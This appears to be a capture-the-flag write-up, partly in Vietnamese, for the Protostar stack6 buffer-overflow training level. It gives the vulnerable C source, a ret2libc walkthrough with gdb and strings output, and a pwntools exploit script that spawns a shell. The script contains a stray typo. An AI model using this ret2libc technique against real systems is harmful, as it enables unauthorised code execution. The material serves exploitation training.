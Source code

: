 # stack6

## Description

Stack6 looks at what happens when you have restrictions on the return address.

This level can be done in a couple of ways, such as finding the duplicate of the payload ( objdump -s will help with this), or ret2libc , or even return orientated programming.

It is strongly suggested you experiment with multiple ways of getting your code to execute here.

This level is at /opt/protostar/bin/stack6

## Source Code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
    printf("bzzzt (%p)\n", ret);
    _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```

### Ret2libc

Giải thích 1 chút, trên môi trường ubuntu của protostar thì ASLR off, và addr của stack luôn bắt đầu bằng `0xbf` cho nên bạn ko thể chèn shellcode. Vì nếu chèn shellcode khi EIP bắt đầu bằng `0xbf` thì lệnh if sẽ True và print() rồi _exit(). Vậy nên t sẽ return về địa chỉ của system() trong libc.

*Tìm padding*
![screenshot](padding.png)
`padding = cyclic(cyclic_find(uaaa))`
*tìm địa chỉ system()*

```Terminal
(gdb) p system
  $1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

*tìm addr /bin/sh

```Terminal
$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
  11f3bf /bin/sh   
 
  -a   = Scan entire file
  -t x = Print the offset location of the string in hexdecimal
To confirm...
(gdb) x/s 0xb7e97000 + 0x11f3bf   <-- libc start address + offset
  0xb7fb63bf:  "/bin/sh"
```

### exploit script

```py
from pwn import *
proc = process('./stack6')
padding = cyclic(cyclic_find("uaaa"))
system_addr = p32(0xb7ecffb0)
##ret addr after system()
ret="\x90"*4
bin_sh_addr = p32(0xb7e97000+0x11f3bf)
payload = padding + system_addr + ret + bin_sh_addr
proc.sendline(payload)ru
proc.interactive()
```

![run](run.png)
